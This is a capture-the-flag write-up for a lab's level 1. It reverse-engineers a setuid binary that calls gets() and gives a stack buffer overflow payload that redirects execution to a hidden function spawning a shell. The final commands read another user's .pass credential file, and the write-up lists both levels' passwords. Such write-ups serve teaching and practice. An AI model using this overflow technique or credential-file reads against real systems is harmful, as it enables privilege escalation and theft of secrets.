

# Level 1

## Setup
We find a binary file at the root of the user **`level1`** named *`./level1`*.

To analyze the binary file we copy it to our own environment with `scp` *(OpenSSH secure file copy)*.
```bash
scp -r -P 4243 level1@localhost:/home/user/level1/level1 .
```

### Radare2

I am running `r2` inside docker.
```bash
docker run -it -v "$bin_file_path":/mnt/binary radare/radare2 bash -c "sudo /snap/radare2/current/bin/r2 /mnt/binary"
```

## Binary Analysis

On the `r2` prompt we need to run a couple of commands to analyze the `main` function.
```bash
[0x08048de8]> aaa # Analyze the binary
...
[0x08048ec0]> V # Enter visual mode
[0x08048ec0]> p # Navigate to the Control Flow Graph (CFG) view
```

<p align="center">
   
</p>

### Code with addresses
```assembly
0x08048444 ; =============== S U B R O U T I N E =======================================
0x08048444
0x08048444 ; Attributes: bp-based frame
0x08048444
0x08048444                 public run
0x08048444 run             proc near
0x08048444 ; __unwind {
0x08048444                 push    ebp
0x08048445                 mov     ebp, esp
0x08048447                 sub     esp, 18h
0x0804844A                 mov     eax, ds:stdout@@GLIBC_2_0
0x0804844F                 mov     edx, eax
0x08048451                 mov     eax, offset aGoodWaitWhat ; "Good... Wait what?\n"
0x08048456                 mov     [esp+0Ch], edx
0x0804845A                 mov     dword ptr [esp+8], 13h
0x08048462                 mov     dword ptr [esp+4], 1
0x0804846A                 mov     [esp], eax
0x0804846D                 call    _fwrite
0x08048472                 mov     dword ptr [esp], offset aBinSh ; "/bin/sh"
0x08048479                 call    _system
0x0804847E                 leave
0x0804847F                 retn
0x0804847F ; } // starts at 8048444
0x0804847F run             endp
0x0804847F
0x08048480
0x08048480 ; =============== S U B R O U T I N E =======================================
0x08048480
0x08048480 ; Attributes: bp-based frame fuzzy-sp
0x08048480
0x08048480 ; int __cdecl main(int argc, const char **argv, const char **envp)
0x08048480                 public main
0x08048480 main            proc near               ; DATA XREF: _start+17↑o
0x08048480
0x08048480 argc            = dword ptr  8
0x08048480 argv            = dword ptr  0Ch
0x08048480 envp            = dword ptr  10h
0x08048480
0x08048480 ; __unwind {
0x08048480                 push    ebp
0x08048481                 mov     ebp, esp
0x08048483                 and     esp, 0FFFFFFF0h
0x08048486                 sub     esp, 50h
0x08048489                 lea     eax, [esp+10h]
0x0804848D                 mov     [esp], eax
0x08048490                 call    _gets
0x08048495                 leave
0x08048496                 retn
0x08048496 ; } // starts at 8048480
0x08048496 main            endp
```

We can see 2 interesting things, in one hand, the program seems to be using the `gets()` function, which is known to be prone to buffer overflow. And on the other, a function called `run()` Which is executing the `"/bin/sh"` shell command.

### Source

The equivalent program in C would be:
```C
#include <stdio.h>
#include <stdlib.h>

void run() {
    FILE *stdout_ptr = stdout;

    // Print the message "Good... Wait what?\n" to the standard output
    fwrite("Good... Wait what?\n", sizeof(char), 17, stdout_ptr);

    // Execute the "/bin/sh" shell command
    system("/bin/sh");
}

int main(int argc, const char **argv, const char **envp)
{
    char buffer[??]; // Buffer to hold user input
    
    gets(buffer); // Reading input from the user

    return 0;
}
```

### Permissions
As we can see in the permissions of the executable file, the binary `./level1` is executed with the privileges of the user **level2**, the owner of the file.
```bash
level1@RainFall:~$ ls -l level1 
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

## Reverse Engineer


### PoC
We can play with the binary on the **level1** user and test if we can redirect the control flow to the `run()` function address `(0x08048444)` with `gdb`.

```bash
gdb ./level1
(gdb) break *0x08048495 # Breakpoint on the return instruction
(gdb) run
(gdb) x/4wx $ebp
0xbffff658:	0x00000000	(0xb7e454d3)	0x00000001	0xbffff6f4 # Next instruction address
(gdb) set {int}($ebp + 4) = 0x08048444 # Replace the return addrs. with the run() addrs.
(gdb) x/4wx $ebp
0xbffff658:	0x00000000	(0x08048444)	0x00000001	0xbffff6f4 # Injected run() address
(gdb) continue
Continuing.
Good... Wait what?
$ whoami
level1
```
Of course, `gdb` is protected, and we cannot use it for privilege escalation that easily. The `./level1` is not being run as a **level2** user when running inside `gdb`.

### Buffer overflow

Let's continue exploring the addresses with `gdb`. To find out where exactly is the `return` address, we will put a break point just before the return instruction `(0x08048496)` and then examine the memory around the stack pointer `esp`.

```bash
(gdb) break *0x08048496 # This is at return
(gdb) run
Hello BUFFER, friend! :)
(gdb) x/wx $esp
0xbffff65c:	0xb7e454d3
```

The return address is typically the value that indicates the next instruction to be executed after the `main()` function finishes. In this case, it's likely the address `0xb7e454d3`.

We can confirm this by overwritting it's address and continuing the execution of the program.

```bash
(gdb) x/4wx $esp
0xbffff65c:	0xb7e454d3	0x00000001	0xbffff6f4	0xbffff6fc
(gdb) set {int}($esp) = 0x08048444
(gdb) x/4wx $esp
0xbffff65c:	0x08048444	0x00000001	0xbffff6f4	0xbffff6fc
(gdb) continue
Continuing.
Good... Wait what?
$ whoami
level1
```
Now that we know where the next instruction is loaded. We need to find out where the buffer is saved. To do so, we can look up the other registers at the same `breakpoint` at `0x08048496`.

We find at the EAX registry, the contents of the buffer.

```bash
(gdb) x/s $eax
0xbffff610:	 "Hello BUFFER, friend! :)"
```

The offset between the `buffer` address and the next instruction (`return`) address can be calculated with `0xbffff65c` - `0xbffff610` = **76**.

With this offset we can inject the `run()` function to te *next instruction address*.
Something like what we did in `gdb`: `set {int}($ebp + 4) = 0x08048444`.

```bash
$ printf "%-76s\x44\x84\x04\x08\n" | tr ' ' '\0' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

Now we have to remember that the `run()` function executes a shell like this:
```bash
system("/bin/sh")
```
But because we ran the program with the input coming from a pipeline, the input is redirected to the `stdin` of the program. So, when the program calls for `system("/bin/sh")`, it immediately executes the shell without waiting for further input, and all it finds on the `stdin` is `EOF` so it closes the shell.

### Solution

Connect with `ssh -p 4243 level1@localhost`
Enter the password `1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a`

To work around this issue we can keep the `stdin` open like this:
```bash
$ ( printf "%-76s\x44\x84\x04\x08\n" ; cat ) | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```